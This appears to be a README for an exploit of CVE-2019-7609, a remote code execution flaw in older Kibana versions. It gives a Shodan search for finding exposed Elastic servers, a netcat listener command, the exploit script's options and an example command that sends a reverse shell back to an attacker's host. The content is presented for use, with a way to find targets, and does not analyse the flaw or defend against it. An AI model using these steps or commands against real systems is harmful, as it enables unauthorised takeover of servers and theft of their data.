 # CVE-2019-7609

![](https://img.shields.io/static/v1?label=Product&message=Kibana&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=before%205.6.15%20and%206.6.1&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)



 - Shodan dork:
```
product:"Elastic"
```
### Usage
```
nc -nvlp 8888
# python2 exploit.py -h

usage: exploit.py [-h] [-u URL] [-host REMOTE_HOST]
                                   [-port REMOTE_PORT] [--shell]

optional arguments:
  -h, --help         show this help message and exit
  -u URL             such as: http://127.0.0.1:5601
  -host REMOTE_HOST  reverse shell remote host: such as: 1.1.1.1
  -port REMOTE_PORT  reverse shell remote port: such as: 8888
  --shell            reverse shell after verify
```
Ex: `python2 exploit.py -u http://target_IP:5601 -host attacker_IP -port attacker_PORT --shell`
